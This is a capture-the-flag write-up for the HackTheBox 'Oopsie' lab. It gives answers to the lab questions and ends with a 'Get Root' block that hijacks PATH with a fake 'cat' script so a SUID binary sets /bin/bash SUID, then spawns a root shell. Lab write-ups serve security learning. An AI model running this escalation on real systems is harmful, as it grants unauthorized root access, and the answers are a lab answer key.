







# Oopsie







With what kind of tool can intercept web traffic?

```
proxy
```

What is the path to the directory on the webserver that returns a login page?

```
/cdn-cgi/login
```



What can be modified in Firefox to get access to the upload page?

```
cookie
```



What is the access ID of the admin user?

```
34322
```

On uploading a file, what directory does that file appear in on the server?

```
/uploads
```

What is the file that contains the password that is shared with the robert user?

```
db.php
```




What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

```
find
```




Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

```
root
```

What SUID stands for?

```
Set owner User ID
```

What is the name of the executable being called in an insecure manner?

```
cat
```

**Get Root**

```sh
find / -type f -group bugtracker 2>/dev/null

echo "chmod u+s /bin/bash" > /tmp/cat
export PATH=/tmp:$PATH

/usr/bin/bugtracker
/bin/bash -p
```